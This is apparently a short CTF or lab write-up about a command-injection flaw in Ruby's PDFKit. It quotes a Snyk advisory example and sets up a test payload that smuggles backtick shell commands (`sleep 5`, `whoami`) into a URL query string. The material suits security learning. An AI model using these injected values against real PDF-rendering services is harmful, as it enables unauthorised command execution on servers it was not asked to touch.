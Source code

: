 ![Untitled](Images/Untitled%202.png)

[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

An example given in that article is: 

```jsx
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command wkhtmltopdf --quiet [...] "http://example.com/?name=%20`sleep 5`" - => nil
```

While we can’t actually see the Ruby script being used to generate our PDF, it looks like it would be using something like `[PDFKit.new](http://PDFKit.new)` , and when you pass it a URL containing a URL encoded character in the query parameters (anything after a `?` in a URL) and then run your command inside backticks (any old linux command) you should see the results return. Why this works? I’m no Ruby expert, but I’d say the URL Encoding makes Ruby handle the string differently and backticks are a way to send output to a shell, or potentially PDFKit runs `wget` or `curl` as a subprocess, and through this we can get additional commands run as a part of that subprocess.

Moving forwards we can set up our test with `http://<your_host_ip>:<port>?%20`whoami``
